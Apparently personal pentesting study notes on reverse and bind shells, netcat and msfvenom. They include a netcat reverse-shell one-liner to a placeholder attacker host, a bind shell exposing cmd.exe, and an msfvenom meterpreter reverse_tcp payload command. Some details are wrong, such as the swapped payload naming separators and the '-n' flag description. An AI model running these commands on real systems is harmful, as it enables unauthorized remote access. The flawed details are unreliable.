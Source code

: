 #### Remote system interaction
* `reverse` shell - when we force the remote server to connect to our server.
	* the listener runs on the attacker's machine
	* the target connects to the attacker's machine with a shell
	* the attacker doesn't need to know the victim's IP
* `bind` shell - when we force remote server to open up a port which we can connect to in order to execute further commands. 
	* the listener on the server computer
	* the attacker need to know the IP address of the victim
	


### Tools
- Netcat
- Socat
- Metasploit - multi/handler
- Msfvenom

### simulating Reverse vs Bind shell
#### Reverse shell
Start listening on the attacker side
```zsh
sudo nc -lvnp <port>
```

Initiating connection from target side
```zsh
nc <attacker-ip> <port> -e /bin/bash
```

> the `-e` flag, which stands for `execute` instructs `nc` to execute the command that follows it after establishing a connection.

#### Bind shell
On the target machine (assume we're on the window machine - that's why we included `cmd.exe` file instead)
```zsh
nc -lvnp <port> -e "cmd.exe"
```

Connect to that service form the attacker `pc`
```zsh
nc <targets-ip> <port>
```


### Netcat
Time to explain the `-lvnp` thing
 - l - listening
 - v - verbose
 - n - host name resolution, `DNS`
 - p - port specification

### msfvenome
- used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal `shellcode` when developing something like a Buffer Overflow exploit.
syntax:
```zsh
msfvenom -p <PAYLOAD> <OPTIONS>
```

#### Staged vs Stageless
- _**Staged**_ payloads are sent in two parts. The first part is called the _stager_. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually 
    
- _**Stageless**_ payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

#### payload naming convention 
```
<os>/<arch>/<payload>
```

- __ is used for ``stageless`` payloads. `windows/shell/bind_hidden_tcp`
- / is used for staged ones. ` windows/shell_hidden_bind_tcp `

> to list all available payloads we can use this `msfvenom --list payloads`

Example:
>  to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is `elf` and the output filename should be `shell`
>  we use the following command ...

```zsh
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell.elf LHOST=10.10.10.5 LPORT=443
```

### Metasploit multi/handler
- tool for catching reverse shells. 